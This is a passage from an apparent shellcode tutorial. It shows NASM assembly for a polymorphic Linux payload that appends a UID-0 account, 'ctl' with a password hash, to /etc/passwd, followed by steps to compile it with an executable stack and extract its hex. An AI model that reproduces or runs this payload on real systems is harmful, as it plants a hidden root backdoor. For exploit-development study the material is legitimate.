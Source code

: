 ```nasm

jmp2call:
  call string2stack         ; jumps 2 next instruction and pushes memory location of string
                            ; below onto the stack.
  string db "-c#/bin/echo ctl:NNwZ8D1QjVy3Y:0:0::/:/bin//sh >> /etc/passwd"
;            01234567890123456789012345678901234567890123456789012345678901
;                      1         2         3         4         5         6

; string db "/bin/sh#-c#/bin/echo ctl:NNwZ8D1QjVy3Y:0:0::/:/bin/sh >> /etc/passwd#"
```
+ The users shell was changed from `/bin/bash` to `/bin//sh`.
  - The number of `/` characters does not matter for calling a program by its full path in Linux.
  - `/bin/sh` is more universal than `/bin/bash`.
  - Using `/bin/sh` also shortens the final length of the shellcode.
+ The `#` at the end of the echo string was also removed.
  - Since the string is at the end of shellcode memory, it should not matter if we overwrite this `byte` in the `code segment`.

# Testing the Shellcode

## Getting the Hex of the Shellcode
#### Compiling & Linking the Shellcode
```nasm
root# nasm -f elf32 poly3.addAcct.nasm -o poly3.addAcct.o
root# ld -z execstack poly3.addAcct.o -o poly3.addAcct
```

### Overcoming Problems with Objdump CL-Fu
#### Dump the Hex with Object Dump
+ Unfortunately our objdump command line fu does not work for this shellcode.
+ To remedy this issues, `objdump -d poly3.addAcct` was used.
+ Byobu was used to grab the shellcode hex from the output.  
![](/assets/images/byobu-box-select.png)
  - `F7` to enter copy-mode
  - `space`+`v` to select text with a box
  - `enter` to copy to clipboard
  - `ctrl+a`+`]` to paste
#### Vi to Format the Hex from Byobu Buffer
+ _vim-fu_ was used to format the hex into the needed C format.  
![](/assets/images/vi-x-format.png)
